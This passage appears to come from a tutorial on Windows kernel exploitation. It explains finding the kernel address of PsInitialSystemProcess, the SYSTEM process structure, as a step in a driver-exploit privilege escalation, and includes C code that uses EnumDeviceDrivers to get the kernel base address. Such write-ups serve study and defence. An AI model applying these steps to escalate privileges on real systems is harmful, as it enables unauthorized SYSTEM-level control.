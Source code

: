 In kernel mode, the address of the `EPROCESS` structure for the SYSTEM process is conveniently exposed by the kernel through the exported symbol `PsInitialSystemProcess`. Unfortunately, our process is running in user mode, which means we can't read this pointer, because it's in kernel-land. We can leverage a driver exploit to read `PsInitialSystemProcess`, but first we need to know what is the kernel address of the `PsInitialSystemProcess` symbol itself.  

To address this issue, we can try to find the offset of `PsInitialSystemProcess` from the base address of the kernel. By adding the offset and the kernel base address together we can determine the kernel address of `PsInitialSystemProcess`.  

```c
KernelAddressOfPsInitialSystemProcess = PsInitialSystemProcessOffset + KernelBaseAddress
```

To find the base address of the kernel, there are various approaches, as described on this page: [https://wumb0.in/finding-the-base-of-the-windows-kernel.html](https://wumb0.in/finding-the-base-of-the-windows-kernel.html)  

In this example, I will utilize the `EnumDeviceDrivers` function, which returns the kernel base addresses of all loaded kernel modules. The first module in the list is the kernel itself, allowing us to obtain its base address.  

```c
ULONG_PTR GetKernelBaseAddress() {
	ULONG_PTR pKernelBaseAddress = 0;
	LPVOID* lpImageBase = NULL;
	DWORD dwBytesNeeded = 0;

	// first call calculates the exact size needed to read all the data
	if (!EnumDeviceDrivers(NULL, 0, &dwBytesNeeded)) {
		PRINT_ERROR(L"[-] Couldn't EnumDeviceDrivers.\n");
		return pKernelBaseAddress;
	}
		
	// allocate enough memory to read all data from EnumDeviceDrivers
	if (!(lpImageBase = (LPVOID*)HeapAlloc(GetProcessHeap(), 0, dwBytesNeeded))) {
		PRINT_ERROR(L"[-] Couldn't allocate heap for lpImageBase.\n");
		if (lpImageBase)
			HeapFree(GetProcessHeap(), 0, lpImageBase);

		return pKernelBaseAddress;
	}

	if (!EnumDeviceDrivers(lpImageBase, dwBytesNeeded, &dwBytesNeeded)) {
		PRINT_ERROR(L"[-] Couldn't EnumDeviceDrivers.\n");
		if (lpImageBase)
			HeapFree(GetProcessHeap(), 0, lpImageBase);

		return pKernelBaseAddress;
	}

	// the first entry in the list is the kernel
	pKernelBaseAddress = ((ULONG_PTR*)lpImageBase)[0];
	DEBUG(L"[*] KernelBaseAddress: %llx\n", pKernelBaseAddress);

	return pKernelBaseAddress;
}
```
